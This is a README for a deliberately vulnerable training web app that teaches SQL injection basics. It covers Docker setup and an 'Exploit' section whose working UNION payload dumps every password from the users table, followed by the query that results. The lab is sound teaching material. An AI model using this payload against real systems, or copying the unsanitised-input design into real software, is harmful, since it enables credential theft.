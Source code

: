 # SQLi Platform

This is a vulnerable WEB application in order to understand SQL injections
basics.

The front end exposes a field allowing the user to search a database
and retrieve names, nicknames, mails... The user's inputs are not
sanitized, allowing an attacker to inject SQL code and leak passwords.

SQL queries are logged on the backend and are also shown on the front,
so that the attacker has a better understanding of what he is doing.

![Screenshot](screenshot.png)


## Deploy

You may run the application under Docker containers:

```
docker-compose up
```

You way edit `docker-compose.yml` in order to tweak the following settings :

- MYSQL_ROOT_PASSWORD `Databse password`
- SQL_HOST=database `Database host, from the API point of view`
- SQL_WAIT=20 `API waiting for that time (in seconds) before connecting to the database`

The application is then accessible on [http://localhost:8080/](http://localhost:8080/).


## Exploit

Here is an example of a working payload, esposing all passwords in the table :

```sql
nothing%" UNION SELECT pass, nickname, email FROM users#
```

Resulting in the following complete query :

```sql
SELECT id, nickname, email FROM users WHERE nickname LIKE "%nothing%" UNION SELECT pass, nickname, email FROM users#%"
```